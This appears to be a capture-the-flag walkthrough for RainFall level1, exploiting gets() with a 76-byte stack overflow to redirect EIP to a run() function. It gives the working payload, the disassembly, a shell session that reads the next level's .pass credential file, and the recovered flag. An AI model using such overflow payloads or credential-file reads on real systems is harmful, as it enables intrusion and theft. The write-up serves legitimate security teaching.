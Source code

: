 # Walkthrough

## Solution
```
$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
```

## Explanation

GDB:
info functions -> list all functions available

EIP: Instruction pointer, points to the next function to be executed

https://wiremask.eu/tools/buffer-overflow-pattern-generator/


### Disassembly

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp      // substract 80 from esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info functions
0x08048444  run
0x08048480  main

There is a run function.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```  

The function gets is not protected against buffer overflows.  
We need to overflow the buffer, to overwrite EIP with the run function address.  
With wiremask, we know that we segfault at character 76.  
We are going to write 76 characters followed by the address of run.  

```
python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```  

> We need to use cat, so that the program wait for an input from stdin  

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
ls
ls: cannot open directory .: Permission denied
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```







/*
Stack based buffer overflows are one of the most common vulnerabilities. Found today. It affects any
function that copies input to memory without doing bounds checking. For example:
Strcpy(),memcpy(),gets(),etc…..
What is a buffer overflow? A buffer overflow occurs when a function copies data into a buffer without
doing bounds checking. So if the source data size is larger than the destination buffer size this data will
overflow the buffer towards higher memory address and probably overwrite previous data on stack.


https://0xrick.github.io/binary-exploitation/bof3/

Transform the address to little endian because in general the stack goes from the top of the memory to the bottom,
thus the "data" you use is always written from low to high  
```
0A 0B 0C 0D
 | | | |    Memory:
 | | |  ---> 0D (a)
 | |  ------> 0C (a+1)
 |  ---------> 0B (a+2)
  -----------> 0A (a+3)
  Little endian
```

*/
